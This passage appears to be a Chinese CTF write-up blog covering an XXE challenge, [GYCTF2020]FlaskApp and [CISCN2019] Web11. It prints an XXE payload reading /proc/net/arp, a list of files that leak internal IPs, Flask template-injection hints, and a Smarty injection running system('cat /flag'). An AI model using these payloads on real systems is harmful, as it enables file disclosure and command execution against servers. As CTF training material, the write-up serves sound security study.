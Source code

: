 ```
<!DOCTYPE cys[
<!ENTITY xxe SYSTEM "file:///proc/net/arp">
]>
<user><username>&xxe;</username><password>1</password></user>
```

Wp：这题是读`/etc/hosts`或者 `/proc/net/arp`来获得内网ip

读到一个10.0.118.2

![](https://img-blog.csdnimg.cn/20210616172644906.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
http访问爆破一下，在11发现flag

![](https://img-blog.csdnimg.cn/20210616172701165.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
关于内网ip文件
```
/etc/hosts
/proc/net/arp
/proc/net/tcp
/proc/net/udp
/proc/net/dev
/proc/net/fib_trie
```

---
# [GYCTF2020]FlaskApp
![](https://img-blog.csdnimg.cn/20210616172755193.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

报错

![](https://img-blog.csdnimg.cn/20210616172806895.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

加密处{{config}}，解密处回显，确定注入点

02:42:ac:10:96:ed
0242ac1096ed

ae3781b7ab3832818645986b0b0f809e60f57732e1ab01408763e084b533e8b1

![](https://img-blog.csdnimg.cn/20210616172830504.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
有点复杂：
[[GYCTF2020]FlaskApp_SopRomeo的博客-CSDN博客](https://blog.csdn.net/SopRomeo/article/details/105875248)

[[GYCTF2020]FlaskApp_missht0的博客-CSDN博客](https://blog.csdn.net/missht0/article/details/113482195)

---
# [CISCN2019 华东南赛区]Web11

Smarty注入  {if system('cat /flag')}{/if}

